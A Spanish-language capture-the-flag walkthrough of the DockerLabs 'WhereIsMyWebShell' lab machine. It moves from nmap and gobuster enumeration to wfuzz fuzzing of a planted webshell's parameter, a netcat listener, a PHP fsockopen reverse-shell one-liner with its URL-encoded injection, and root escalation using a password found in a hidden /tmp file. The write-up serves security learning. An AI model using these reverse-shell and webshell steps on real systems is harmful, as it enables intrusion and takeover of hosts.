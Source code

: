 ## 1. Reconocimiento Inicial con Nmap

```bash
nmap -sC -sV --open 172.17.0.2
```

 **Resultado del escaneo** 
```
80/tcp open  http    Apache httpd 2.4.57 ((Debian))  
|_http-server-header: Apache/2.4.57 (Debian)  
|_http-title: Academia de Ingl\xC3\xA9s (Inglis Academi)  
MAC Address: 02:42:AC:11:00:02 (Unknown)
```

La salida de `nmap` indica que el puerto 80 está abierto y que un servidor web Apache httpd versión 2.4.57 (Debian) está en ejecución. El título de la página web es "Academia de Inglés (Inglis Academi)", lo que nos da una pista sobre el tipo de contenido alojado. Además, se observa una nota en el ejercicio que dice: "Guardo un secretito en /tmp ;)", lo que sugiere que hay información relevante en el directorio `/tmp` del sistema, posiblemente para la fase de escalada de privilegios.

## 2. Enumeración de Contenido Web con Gobuster

Dado que se ha identificado un servidor web, el siguiente paso es enumerar directorios y archivos ocultos o no enlazados. 

```bash
gobuster dir -u http://172.17.0.2 -w /home/eduard/WordList/directories.txt -x php,txt,html,php.bak
```

 **Resultado de Gobuster**
```
/index.html           (Status: 200) [Size: 2510]  
/shell.php            (Status: 500) [Size: 0]  
/warning.html         (Status: 200) [Size: 315]
```

Revela varios archivos interesantes:

*   `/index.html`: La página principal del sitio web.
*   `/shell.php`: Un archivo PHP que devuelve un código de estado `500` (Error Interno del Servidor) y un tamaño de 0 bytes. Esto es una fuerte indicación de que podría ser una webshell, pero que requiere un parámetro específico para funcionar correctamente.
*   `/warning.html`: Un archivo HTML que contiene un mensaje relevante.

Al acceder a `warning.html`, se encuentra el siguiente mensaje:

> Esta web ha sido atacada por otro hacker, pero su webshell tiene un parámetro que no recuerdo...

Esta es una pista crucial que confirma la existencia de una webshell (`shell.php`) y que su funcionamiento depende de un parámetro desconocido. El objetivo ahora es descubrir este parámetro.

---
Antes de atacar shell.php,  descargamos las imágenes con wget `htttp://<ip><img>` y usamos steghide y exiftool en ellas en busca de información oculta, pero sin obtener resultado.


### 3. Fuzzing de Parámetros con Wfuzz
El siguiente paso lógico es realizar un fuzzing de parámetros en `shell.php` para identificar el correcto que activa la funcionalidad de la webshell. 

```bash
wfuzz -c --hl=0 -t 200 -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -u "http://172.17.0.2/shell.php?FUZZ=id"
```

**Resultado**: "parameter".

El resultado del `wfuzz` devuelve 2 líneas, a diferencia de otros intentos que devuelven 0 líneas. Esto indica que `shell.php?parameter=id` está ejecutando el comando `id` y devolviendo su salida. Esto confirma que se ha logrado una Ejecución Remota de Comandos (RCE).

![Fuzzing](https://github.com/WebReconSpider/the-hackbook/blob/main/Ejercicios/DockerLabs/2Facil/Imagenes/WhereIsMyWebShell_Fuzzing.png)

## 4. Obtención de una Reverse Shell

Una vez que se ha confirmado la RCE, el siguiente paso es obtener una `reverse shell` para tener una conexión interactiva y estable con la máquina objetivo. Una `reverse shell` es una conexión iniciada desde la máquina objetivo hacia la máquina del atacante, lo que a menudo evade los firewalls que bloquean las conexiones entrantes.

### Preparación del Listener en la Máquina Atacante

En la máquina del atacante, se configura un `listener` utilizando `netcat` para esperar la conexión entrante de la `reverse shell`.

```bash
nc -lnvp 443
```


### Generación y Ejecución de la PHP Reverse Shell

Se busca una `PHP reverse shell` adecuada en recursos como `https://ironhackers.es/herramientas/reverse-shell-cheat-sheet/`. La plantilla utilizada es:
![Reverse_Shell](https://github.com/WebReconSpider/the-hackbook/blob/main/Ejercicios/DockerLabs/2Facil/Imagenes/WhereIsMyWebShell_Reverse_Shell.png)
```php
php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```

Se ajusta la IP y el puerto a los de la máquina atacante (`172.17.0.1` y `443` respectivamente):

```php
php -r '$sock=fsockopen("172.17.0.1",443);exec("/bin/sh -i <&3 >&3 2>&3");'
```
*   `fsockopen("172.17.0.1",443)`: Abre un socket TCP y se conecta a la IP y puerto especificados de la máquina atacante.
*   `exec("/bin/sh -i <&3 >&3 2>&3")`: Ejecuta una shell interactiva (`/bin/sh -i`) y redirige la entrada, salida y error estándar a través del socket abierto, estableciendo así la `reverse shell`.

Finalmente, esta cadena PHP se codifica en URL para ser inyectada a través del parámetro `parameter` de `shell.php`:

```
http://172.17.0.2/shell.php?parameter=php%20-r%20%27%24sock%3Dfsockopen(%22172.17.0.1%22%2C443)%3Bexec(%22%2Fbin%2Fsh%20-i%20%3C%263%20%3E%263%202%3E%263%22)%3B%27
```

Al acceder a esta URL en el navegador (o a través de `curl`), el navegador se quedará "colgado" o mostrará un error, lo que es una señal de que la `reverse shell` se ha ejecutado y la conexión se ha establecido con el `listener` de `netcat` en la máquina atacante. Se verifica el usuario actual con `whoami`:

```bash
$ whoami  
# www-data
```

## 5. Escalada de Privilegios

La pista inicial "Guardo un secretito en /tmp ;)" es fundamental para la escalada de privilegios. 

Se navega al directorio `/tmp`:

```bash
cd /tmp
```

Un `ls` normal no muestra nada, lo que sugiere que el archivo es oculto. Por lo que usamos la opción `-a`

```bash
ls -a
```

Revela el archivo oculto `.secret.txt`:

```
drwxrwxrwt 1 root root  6 Aug  1 17:33 .  
drwxr-xr-x 1 root root 39 Aug  1 17:33 ..  
-rw-r--r-- 1 root root 21 Apr 12  2024 .secret.txt
```

Finalmente, se lee el contenido de `.secret.txt` para obtener la contraseña:

```bash
$ cat .secret.txt  
contraseñaderoot123
```

La contraseña `contraseñaderoot123` es la clave para escalar a `root`.

### Escalada a Root 

Con la contraseña de `root`, se utiliza el comando `su` (substitute user) para cambiar al usuario `root`.

```bash
$ su -
Password: contraseñaderoot123
```

*   `su -`: El guion (`-`) después de `su` indica que se debe iniciar una shell de login para el usuario `root`, lo que significa que se cargará el entorno completo del usuario `root` (incluyendo su PATH y variables de entorno), lo cual es importante para asegurar que todos los comandos de `root` estén disponibles.


```bash
whoami  
root
```

Esto confirma que la escalada de privilegios ha sido exitosa y se tiene control total sobre el sistema como usuario `root`.
